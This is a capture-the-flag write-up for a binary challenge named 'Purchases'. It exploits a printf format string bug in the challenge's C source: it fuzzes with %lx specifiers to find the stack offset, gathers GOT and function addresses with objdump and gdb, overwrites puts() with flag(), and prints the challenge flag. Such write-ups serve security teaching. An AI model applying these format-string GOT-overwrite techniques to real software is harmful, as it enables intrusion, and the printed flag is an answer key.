 # Purchases
Binary

## Challenge 

This grumpy shop owner won't sell me his flag! At least I have his source.

/problems/2019/purchases/

nc shell.actf.co 19011

Author: defund

[purchases](purchases)

[purchases.c](purchases.c)

## Solution

#### printf format string attack

See from code

	} else {
		printf("You don't have any money to buy ");
		printf(item);
		printf("s. You're wasting your time! We don't even sell ");
		printf(item);
		printf("s. Leave this place and buy ");
		printf(item);
		printf(" somewhere else. ");
	}

In hopper decompiled code, it appears that the final text has been optimised to a puts("Get out!");

	int main() {
		...
	    } else {
	            printf("You don't have any money to buy ");
	            printf(&var_50);
	            printf("s. You're wasting your time! We don't even sell ");
	            printf(&var_50);
	            printf("s. Leave this place and buy ");
	            printf(&var_50);
	            printf(" somewhere else. ");
	    }
	    puts("Get out!");
	}

---

Fuzz for the offset

	ABCDabcd %16lx %16lx %16lx %16lx %16lx %16lx %16lx %16lx %16lx %16lx %16lx %16lx 

	# ./purchases 
	What item would you like to purchase? ABCDabcd %16lx %16lx %16lx %16lx %16lx %16lx %16lx %16lx %16lx %16lx %16lx %16lx 
	You don't have any money to buy ABCDabcd     7ffc6e641470     7faa92d3f8c0                0     7faa92d44500     7faa92d44500               c2         6e643b46 6463626144434241

And we get offset of 8

	# ./purchases 
	What item would you like to purchase? ABCDabcd %8$16lx
	You don't have any money to buy ABCDabcd 6463626144434241s.

Next, we will replace replace puts() with flag().

*Alternatively, replace printf() with flag, which will also work .Because I was having trouble replacing printf(), I decided to replace puts() with flag(). However, afterward, I found out it was no longer the case*

Get address.

	printf() : 0x404040
	puts() : 0x404018
	flag() : 0x4011b6

	# objdump -R ./purchases  | grep puts
	0000000000404018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5

	(gdb) info add flag
	Symbol "flag" is at 0x4011b6 in a file compiled without debugging.

Put to server

	# python format_string_purchases.py | ./purchases 
	What item would you like to purchase? You don't have any money to buy     

	0x404018      @@ somewhere else. actf{limited_edition_flag}

## Flag

	actf{limited_edition_flag}
